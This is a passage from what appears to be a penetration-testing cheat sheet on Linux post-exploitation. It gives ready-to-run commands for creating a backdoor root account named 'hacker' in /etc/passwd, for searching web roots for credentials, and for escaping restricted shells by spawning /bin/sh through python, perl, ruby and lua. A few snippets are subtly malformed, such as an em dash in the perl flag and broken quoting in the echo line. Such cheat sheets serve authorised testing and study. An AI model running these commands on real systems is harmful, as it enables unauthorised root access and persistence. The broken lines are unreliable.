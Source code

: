   ```bash
  # First generate a password with one of the following commands.
  openssl passwd -1 -salt hacker hacker
  mkpasswd -m SHA-512 hacker
  python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
  # Then add the user hacker and add the generated password.
  hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
  ```

##### Websites location enumeration

Websites location may help us to:

- Find credentials and/or comments in files that are only available on the back-end
- Websites files that are not yet available in either dev, stage, test or production

```bash
ls -alhR /var/www/
ls -alhR /srv/www/htdocs/
ls -alhR /usr/local/www/apache22/data/
ls -alhR /opt/lampp/htdocs/
ls -alhR /var/www/html/
```

### Getting /bin/sh

#### Quick test

```bash
# It may be allowed to simply run it
/bin/sh
# Adding /bin/sh to PATH and/or SHELL
export PATH=/bin:/usr/bin:/sbin:$PATH
export SHELL=/bin/sh
# Using chsh (Command used to change your login shell.)
chsh
/bin/bash
# Allow to copy from /bin
cp /bin/sh /current/directory; sh
```

#### Spawn a bash shell

```bash
# Python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
# Ruby
ruby: exec "/bin/sh"
# Lua
lua: os.execute('/bin/sh')
# "Echo method"
echo 'os.system('/bin/bash')'
```
